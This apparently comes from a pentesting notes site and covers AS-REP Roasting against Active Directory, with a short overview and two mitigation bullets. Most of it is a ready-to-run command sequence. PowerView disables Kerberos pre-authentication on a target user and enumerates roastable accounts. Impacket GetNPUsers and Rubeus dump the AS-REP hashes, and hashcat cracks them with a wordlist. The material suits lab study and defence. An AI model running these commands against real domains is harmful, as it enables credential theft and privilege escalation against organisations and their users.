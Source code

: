 ```yaml
---
title: "AS-REP Roasting"
description: "Privilege escalation using AS-REP Roasting."
lead: "Using AS-REP Roasting for privilege escalation in Active Directory with PowerView, Mimikatz, and Rubeus."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_privilege_escalation"
weight: 10
toc: true
---
```


## Overview

- Dump krbasrep5 hashes of user accounts without Kerberos pre-authentication
- Users do not have to be service accounts
- Must have pre-authentication disabled
- Can request any authentication data (encrypted TGT) for any user since KDC skips validation
- Crack dumped hash with hashcat

## Exploitation

### Force Disable Kerberos Preauth

```powershell
# Using PowerView 3.0/dev
# Enumerate permissions for RDPUsers on ACLS
Invoke-ACLScanner -ResolveGUIDS | ?{ $_.IdentityReferenceName -match "RDPUsers" }

# Disable preauth for user
Set-DomainObject -Identity Control572User -XOR @{useraccountcontrol=4194304} -Verbose
```

### Enumerate Users with Preauth Disabled

```powershell
# Using PowerView 3.0/dev
Get-DomainUser -PreauthNotRequired -Verbose | Select samaccountname

# Using AD Module
Get-ADUser -Filter { DoesNotRequirePreAuth -eq $true } -Properties DoesNotRequirePreAuth

# Query AS-REP-roastable users with impacket from Kali host
# Supply userlist and don't require authentication
GetNPUsers.py -dc-ip 10.10.149.145 -k -no-pass -usersfile users.txt spookysec.local/

# Dump KRBASREP5 hash for specific user and output in hashcat format to file
.\Rubeus.exe asreproast /user:control572user /format:hashcat /outfile:control572user.asrep

# Transfer hash onto attacker and insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
# Crack hash with hashcat
hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

## Mitigation

- Strong password policy
- Enable Kerberos Pre-Authentication
